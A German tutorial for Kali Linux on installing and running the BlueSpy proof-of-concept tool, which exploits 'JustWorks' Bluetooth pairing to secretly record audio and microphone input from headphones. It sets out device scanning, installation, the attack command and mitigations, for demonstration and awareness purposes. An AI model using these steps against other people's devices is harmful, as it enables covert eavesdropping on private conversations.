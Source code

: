 # Bluetooth-Verkehr mitschneiden

`Verwendetes Betriebssystem: Kali-Linux`

`Anleitung erstellt am 23.6.2025`


- [Link zu BlueSpy](https://github.com/TarlogicSecurity/BlueSpy/)
- [BlueSpy-Blog-Artikel](https://www.tarlogic.com/blog/bluespy-spying-on-bluetooth-conversations/)


`Wichtig: Diese Anleitung zeigt, wie der Bluetooth-Verkehr bei einer lokalen Verbindung, also ein Blutooth-Gerät verunden mit einem Linux-System, auf dem BlueSpy läuft, aufgezeichnet werden kann.`


----------------------------------------------------------------------------------------------------


## Bluetooth-Verkehr mitschneiden
- `Was ist BlueSpy ?`
	- BlueSpy wurde als Proof-of-Concept-Tool entwickelt, um Sicherheitslücken in Bluetooth-Kopfhörern zu veranschaulichen.
	- Dabei wird eine Schwachstelle im Bluetooth-Protokoll ausgenutzt, die es ermöglicht, die Verbindung mitzuschneiden.
	- Technisch gesehen, versucht BlueSpy sich mit dem Bluetooth-Gerät unbemerkt zu verbinden (koppeln), um die Pakete abzufangen.
	- Da BlueSpy ein experimentelles Werkzeug ist, eigenet es hervoragend für Demonstrationen.
	- Außerdem zeigt es, dass es wichtig ist auch bei Bluetooth Verbindungen sichere Paring-Methoden und verschlüsselte Verbindungen zu implementieren.
	- Neben der Audioausgabe, kann in einigen Fällen auch das Mikrofonsignal mitgeschnitten werden.

- `Traffic zwischen externen Geräten aufnehmen`
	- In der Regel ist bei modernen Bluetooth-Verbindungen der Traffic verschlüsselt.
	- Diesen könnte man z.B. über [Wireshark](https://www.wireshark.org/) aufnehmen, aber ohne Schlüssel ist die Aufnahme unbrauchbar.
	- Angreifer könnten daher über eine Man-in-the-Middle-Attacke versuchen, den Traffic über eigene Geräte zu leiten, das ist jedoch sehr kompliziert. Außerdem verhindern moderne und sichere Kopplungsmethoden, dass sich Angreifer unbemerkt mit Geräten koppeln.
	- Wenn jedoch veraltete Protokolle, wie `"JustWorks"` verwendet werden, sind die entsprechenden Verbindungen anfällig.


- `Fazit & Sicherheitsmaßnahmen`
	- Das veraltete `"JustWorks"` Protokoll, ist eine Schwachstelle und kann z.B. von BlueSpy ausgenutzt werden, um unbemerkt Audioausgaben, als auch Audioeingaben mitzuschneiden.
	- Die Schwachstelle ist quasi die fehlende Nutzerbestätigung beim Kopplungsvorgang.
	- Sicherheitsmaßnahmen sind ein sicheres Pairing Prinzip, z.B. die physische Bestätigung eines Nutzers (Knopfdruck).
	- Geräte sollten zudem nur in einem bestimmten "Kopplungsmodus" auffindbar sein.
	- Außerdem sollten Geräte immer sicher aufbewahrt, Softwareupdates installiert und ein Bewusstsein für die Vielzahl an Gefahren geschaffen werden.


----------------------------------------------------------------------------------------------------


## bluetoothctl - Übersicht von Bluetooth-Geräten
```
$ bluetoothctl
```
- Für direkt mit dem System verbundene Geräte:
```
devices
```

- Für nicht verbundene Geräte:
    - Nun werden Bluetooth Geräte angezeigt.
    - gewünschtes Gerät anhand der MAC-Adresse identifizieren und entsprechende Mac-Adresse kopieren
```
scan on
```

- zum Verlassen:
```
exit
```

- Um Details zur Bluetooth-Schnittstelle des Linux-Systems einzusehen, folgenden Befehl verwenden:
```
$ hciconfig -a
```


## [BlueSpy](https://github.com/TarlogicSecurity/BlueSpy/)
`Das Tool benötigt Root-Rechte, es wird daher empfohlen es nur in einer Testumgebung / Virtuellen Maschine auszuführen.`

- Abhängigkeiten installieren
```
$ sudo apt install git python3 python3-venv pulseaudio bluez bluez-tools
```

- BlueSpy installieren (von Github klonen)
```
$ git clone https://github.com/TarlogicSecurity/BlueSpy.git
```
```
$ cd BlueSpy
```

- virtuelle Python-Umgebung einrichten
```
$ python3 -m venv venv
$ source venv/bin/activate
```


## Angriff starten
```
$ python BlueSpy.py -a MAC-ADRESSE
```

- Um Aufnahme zu beenden:
```
STRG+C
```

- Um Aufnahme direkt abzuspielen:
	- Ansonsten wird die Aufnahme in dem Ordner `BlueSpy` gespeichert
```
y
```

- Aufnahme im lokalen Verzeichnis öffnen:
```
$ cd BlueSpy
$ ls
```

----------------------------------------------------------------------------------------------------


## Entfernung vom Tool [BlueSpy](https://github.com/TarlogicSecurity/BlueSpy/) (optional)
- virtuelle Umgebung deaktivieren (falls noch aktiv)
```
$ deactivate
```
- Verzeichnis löschen
```
$ cd ..
$ rm -rf BlueSpy
```
- Abhänigkeiten entfernen
```
$ sudo apt remove bluez-tools
$ sudo apt autoremove --purge && sudo apt autoclean
```

----------------------------------------------------------------------------------------------------
